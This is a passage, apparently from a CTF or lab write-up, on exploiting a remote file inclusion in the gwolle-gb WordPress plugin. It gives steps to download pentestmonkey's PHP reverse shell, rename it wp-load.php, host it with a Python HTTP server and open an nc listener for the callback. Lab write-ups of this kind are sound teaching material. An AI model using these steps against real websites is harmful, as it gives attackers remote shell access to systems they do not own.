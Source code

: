 ![](./IMG/27.png)

### Research for gwolle-gb RFI 


## Exploit

- So , first download php web shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- And modify the file to ```wp-load.php```

![](./IMG/28.png)
- Create simple http server
```
python3 -m http.server 9797
```

![](./IMG/29.png)
- Set up nc listener
```
nc -nlvp 1336
```
